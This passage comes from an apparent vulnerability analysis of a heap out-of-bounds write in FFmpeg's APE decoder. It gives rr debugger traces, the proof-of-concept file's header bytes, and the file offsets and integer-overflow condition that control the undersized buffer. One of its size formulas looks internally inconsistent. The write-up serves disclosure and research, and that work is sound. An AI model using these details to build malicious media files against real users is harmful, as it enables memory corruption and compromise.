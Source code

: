         108	{
        (rr) n
        109	    FileContext *c = h->priv_data;
        (rr) n
        112	    ret = read(c->fd, buf, size);
        (rr) n
        113	    if (ret == 0 && c->follow)
        (rr) x/32b buf
        0xa670aa0:	0x4d	0x41	0x43	0x20	0x40	0x0f	0xe8	0x03
        0xa670aa8:	0x00	0x00	0x01	0x00	0x00	0x00	0x00	0x00
        0xa670ab0:	0x2c	0x00	0x00	0x00	0x00	0x00	0x00	0x00
        0xa670ab8:	0x01	0x00	0x00	0x00	0x10	0xb1	0x02	0x20
        (rr) x/4dx buf+28
        0xa670abc:	0x10	0xb1	0x02	0x20
        (rr) 

Finally, find __avpkt->data[0:4]__  comes from the input file with offset __0x1c__ to __0x1f__. The header of PoC file is like the following:

        @ HEADER OF POC FILE
        4D 41 43 20 40 0F E8 03 00 00 01 00 00 00 00 00
        2C 00 00 00 00 00 00 00 01 00 00 00 10 B1 02 20

So, we can control value of variable __blockstodecode___ by modifying value at file __offset 0x1c to 0x1f__. So the related formula:

> allocated size of ctx->decode[0] = X + X/16 +32
>
> X =  2 * FFMIN(POC[0x1c:0x1f], 8) * 4 = 8 * ((POC[0x1c:0x1f]+8-1)&~(8-1))
>
> the integer overflow condition is:  POC[0x1c:0x1f] > 0x1ffffff9
>
 Besides, file version (i.e. __s->fileversion__) comes from __POC[0x04:0x05]__


Now, we can control the size of buffer __ctx->decoded[0]__ where out-of-bound-write happens. Next, __what value can be out-of-bound writen into?__

        Program received signal SIGSEGV, Segmentation fault.
        0x083a84ae in entropy_decode_mono_3900 (ctx=0xa672340, blockstodecode=<optimized out>) at src/libavcodec/apedec.c:671
        671	        *decoded0++ = ape_decode_value_3900(ctx, &ctx->riceY);
        (rr) l 
        666	static void entropy_decode_mono_3900(APEContext *ctx, int blockstodecode)
        667	{
        668	    int32_t *decoded0 = ctx->decoded[0];
        669	
        670	    while (blockstodecode--)
        671	        *decoded0++ = ape_decode_value_3900(ctx, &ctx->riceY);
        672	}
        673	
        674	static void entropy_decode_stereo_3900(APEContext *ctx, int blockstodecode)
        675	{
        (rr)

